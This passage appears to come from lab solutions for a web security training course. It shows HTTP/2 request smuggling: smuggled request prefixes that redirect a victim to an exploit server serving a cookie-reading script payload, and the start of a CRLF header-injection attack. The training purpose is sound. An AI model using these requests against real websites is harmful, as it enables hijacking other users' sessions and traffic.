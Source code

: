     GET /resources HTTP/1.1  
    Host: foo  
    Content-Length: 5  
      
    x=1  
      
    `
    
6.  Send the request a few times. Notice that smuggling this prefix past the front-end allows you to redirect the subsequent request on the connection to an arbitrary host.
    
7.  Go to the exploit server and change the file path to `/resources`. In the body, enter the payload `alert(document.cookie)`, then store the exploit.
    
8.  In Burp Repeater, edit your malicious request so that the `Host` header points to your exploit server:
    
    `POST / HTTP/2  
    Host: YOUR-LAB-ID.web-security-academy.net  
    Content-Length: 0  
      
    GET /resources HTTP/1.1  
    Host: YOUR-EXPLOIT-SERVER-ID.web-security-academy.net  
    Content-Length: 5  
      
    x=1  
      
    `
    
9.  Send the request a few times and confirm that you receive a redirect to the exploit server.
    
10.  Resend the request every 10 seconds or so until the victim is redirected to the exploit server and the lab is solved.

### Lab: HTTP/2 request smuggling via CRLF injection

**Hint**

To inject newlines into HTTP/2 headers, use the Inspector to drill down into the header, then press the `Shift + Return` keys. Note that this feature is not available when you double-click on the header.

1.  In the browser, use the lab's search function a couple of times and observe that the website records your recent search history. Send the most recent `POST /` request to Burp Repeater and remove your session cookie before resending the request. Notice that your search history is reset, confirming that it's tied to your session cookie.
    
2.  Expand the Inspector's **Request Attributes** section and change the protocol to HTTP/2.
    
3.  Using the Inspector, add an arbitrary header to the request. Append the sequence `\r\n` to the header's value, followed by the `Transfer-Encoding: chunked` header:
    
    **Name**
    
    `foo`
    
    **Value**
    
    `bar\r\n  
    Transfer-Encoding: chunked`
    